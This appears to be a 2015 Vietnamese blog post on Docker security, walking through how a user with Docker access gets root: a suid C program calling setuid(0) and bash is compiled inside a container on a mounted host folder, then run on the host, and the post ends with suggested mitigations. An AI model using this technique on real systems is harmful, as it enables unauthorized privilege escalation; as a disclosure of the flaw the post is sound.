 ```yaml
---
layout: post
title: "Docker Security"
date: 2015-11-06 14:55:50
comments: true
catergories: jekyll update
---
```

Hôm nay tác giả đọc về docker, chợt nghĩ dùng docker để get root với một
user thường, và tác giả giả lặp hành động đó như sau

# suid
Khi set suid một tập tin cho phép chạy với user owner nó bởi một user
khác, tất cả các tập tin shell script hiện tại đều bị drop suid do đó ta 
chọn một file C thay thế.

ta dùng đoạn code sau:

{% highlight c startinline %}
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid( 0 );
    system( "/bin/bash" );
    return 0;
 }

{% endhighlight %}

# docker

Docker mặc định chạy với user root hoặc user trong Dockerfile. Ta
tạo một container với lệnh sau
{% highlight bash startinline %}
docker run -v /home/dragon/Git/pacman/lib/libalpm:/mnt/lib --rm -it
jessie /bin/bash
{% endhighlight %}

trong docker:
{% highlight c startinline %}
gcc -o test test.c

chmod +s test && chmod +x test

exit
./test
[root@firewall libalpm]#
{% endhighlight %}

Tới đây ta có xuất hiện vấn đề rằng một user thông thường sử dụng docker
sẽ dẫn đến security có thể get root, nhưng dùng docker với root cũng
không khá gì hơn.

Docker cho phép sử dụng -u option để override USER trong Dockerfile. Tới
đây, ta thấy cần phải có cơ chế drop hoàn toàn suid/sgid khi exit khỏi
container. Docker giữ nguyên cả uid của owner cho file và directory
trong docker cho volume. Như vậy việc get root thông qua docker rất dễ
dàng, cách tốt nhất là drop toàn bộ suid/sgid cho file thuộc containeir
và không cho bất cứ ứng dụng nào chạy root nữa.

Một [issue](https://github.com/docker/docker/issues/12949) được mở trên
[github](github.com) tương tự cho vấn đề trên.

